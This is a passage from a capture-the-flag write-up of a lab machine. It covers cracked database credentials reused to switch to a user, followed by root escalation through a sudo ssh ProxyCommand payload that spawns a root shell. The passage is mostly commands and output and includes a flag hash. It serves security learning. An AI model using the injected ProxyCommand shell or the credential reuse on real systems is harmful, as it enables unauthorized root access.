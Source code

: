 ```bash
Hardware.Mon.#1..: Temp: 51c Fan: 19% Util: 97% Core:1923MHz Mem:4006MHz Bus:16

Started: Tue Sep 05 07:20:44 2023
Stopped: Tue Sep 05 07:20:59 2023
```

So our gathered credentials from the database are `admin`:`manchesterunited` .

### Privilege Escalation | User

After `cat`ing out the `/etc/passwd` file to see users with a `/home` directory, we land on the username `josh`. We can test out the `admin` password for `josh`:

```bash
cozyhosting=# exit
could not save history to file "/home/app/.psql_history": No such file or directory
(remote) app@cozyhosting:/app$ su josh
Password:
josh@cozyhosting:/app$ cd ~
josh@cozyhosting:~$ ls
user.txt
josh@cozyhosting:~$ cat user.txt
7d21d6bcbd68d25a92908bf5290b1a69
```

### Privilege Escalation | Root

Finally, lets see what privilege escalation options might be available to us before enumerating with `linpeas.sh`:

```bash
(remote) josh@cozyhosting:/tmp$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\\\:/usr/local/bin\\\\:/usr/sbin\\\\:/usr/bin\\\\:/sbin\\\\:/bin\\\\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

As we can run the `ssh` binary as `root` with sudo, we can use a pretty simple payload from `gtfobins` to grab our final flag.

```bash
(remote) josh@cozyhosting:/tmp$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
```
